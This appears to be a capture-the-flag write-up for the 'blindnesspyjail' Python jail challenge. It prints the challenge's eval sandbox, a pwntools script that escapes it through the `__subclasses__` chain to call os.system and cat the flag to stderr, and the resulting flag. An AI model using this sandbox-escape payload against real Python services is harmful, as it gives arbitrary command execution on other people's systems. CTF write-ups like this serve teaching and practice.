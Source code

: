 # blindnesspyjail

```
what flag? can't see it.

nc challs1.pyjail.club 19992
```

Attachment:

```python
#!/usr/local/bin/python3
import sys
inp = input('blindness > ')
sys.stdout.close()
flag = open('flag.txt').read()
eval(inp, {'__builtins__': {}, 'flag': flag})
print('bye bye')
```

Although stdout is banned, we can print flag to stderr. To handle empty builtins, we can use the traditional `().__class__.__base__.__subclasses__()` trick to find `os`:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# os._wrap_close is at 159 in docker
os_index = 159
# assert subclasses.split(", ").index("<class 'os._wrap_close'>") == os_index

# p = process(["python3", "main.py"])
p = remote("challs1.pyjail.club", 19992)
p.sendline(
    f"().__class__.__base__.__subclasses__()[{os_index}].__init__.__globals__['system']('cat flag.txt 1>&2')"
)
p.interactive()
```

Flag: `jail{stderr_leak_5fd787f079eb69e}`.

An elegant and simple solution is provided by @mirelgigel at [mirelgigel/writeupjailctf](https://github.com/mirelgigel/writeupjailctf).
